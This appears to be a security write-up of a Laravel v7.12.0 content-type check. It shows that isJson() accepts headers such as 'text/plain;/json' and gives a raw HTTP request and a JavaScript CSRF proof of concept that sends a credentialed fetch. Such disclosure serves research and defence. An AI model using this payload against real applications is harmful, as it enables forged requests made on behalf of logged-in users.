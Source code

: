 ### Laravel v7.12.0
**Vulnerable endpoint**
```php
public function test(Request $request) {
  if($request->isJson()) {
    $data = $request->json();
```
**Source code** ([/laravel/framework/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php](https://github.com/laravel/framework/blob/ffead70b97f799c0054bd5975c85325bf857b247/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php#L32-L34))
```php
public function isJson()
{
  return Str::contains($this->header('CONTENT_TYPE'), ['/json', '+json']);
```
**JSON Content-Type**
```
XXX;/json
XXX;+json
```
**HTTP Request**
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;+json
Content-Length: 13

{"test":true}
```
**JS CSRF PoC**
```html
<script>
	fetch('http://localhost/json',{
		method:'POST',
		headers:{'Content-Type':'text/plain;/json'},
		body:'{"test":true}',
		credentials: 'include'
	});
</script>
```